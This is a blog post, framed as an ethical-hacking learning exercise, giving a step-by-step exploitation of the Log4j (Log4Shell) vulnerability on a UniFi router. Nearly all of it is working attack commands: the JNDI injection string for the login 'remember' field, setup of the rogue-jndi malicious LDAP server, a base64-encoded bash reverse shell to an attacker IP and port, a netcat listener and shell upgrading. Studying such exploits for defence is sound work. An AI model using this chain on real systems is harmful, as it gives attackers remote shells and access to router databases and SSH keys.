 +++
title = 'Understanding Log4j through Exploitation'
date = 2025-01-22T14:59:57-07:00
draft = false
tags = ["Log4j", "Ethical Hacking"]
categories = ["Penetration Testing"]
+++
# Log4j

It was December 9, 2021. I was working as a Vulnerability Management Consultant working for X-Force Red. Suddenly, it was all hands on deck. A new vulnerability had hit the scene and it was EXPLOSIVE. Log4j was a little logging library that java used and it was in EVERYTHING. All of our clients had it and they were worried. We spent weeks working with each of our POC's (Point of Contact) and helping them identify their vulnerable machines.

It was a nightmare.

A few years on though, I thought it might be fun to learn how to run the exploit myself. I found this writeup from Spocket and tested it with a Unify router and can confirm that this attack works. It's a guaranteed shell on the device, and as they pointed out, a great way of accessing the router's database and subsequent ssh key.

The excellent writeup can be found [here](https:/www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi). 

# Steps of Exploitation:

Step 1: Identify an injectable field. For instance, the unifi router has one in the remember field of the login page.

Step 2: inject the following string into the field "${jndi:ldap://{Tun0 IP Address}/whatever}"

Step 3: run the following command on your machine to confirm the app is reaching out: `sudo tcpdump -i {interface} port 389`

Step 4: Make sure you have openjdk and maven installed for exploit kit.
```
sudo apt update
sudo apt install openjdk-11-jdk -y
sudo apt install maven
```

Step 5. Install the rogue-jndi toolkit:
```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```
Step 6. Craft a payload for the malicious server:
```
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64
```

Step 7. Launch the malicious server. PRO TIP, REMOVE ANY SPACES IN THE CURLY BRACES OR IT WILL NOT WORK.
```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```
For Example:
```
java -jar target/RogueJndi-1.1.jar --command "bash -c
{echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.33"
```

Step 8. Setup a netcat listener to catch the shell:
nc -lvpn 4444

Step 9: Set the payload in the app to call to your malicious server's ldap resource:
```
${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}
```

Step 10: Enjoy your new shell by upgrading it:
script /dev/null -c bash
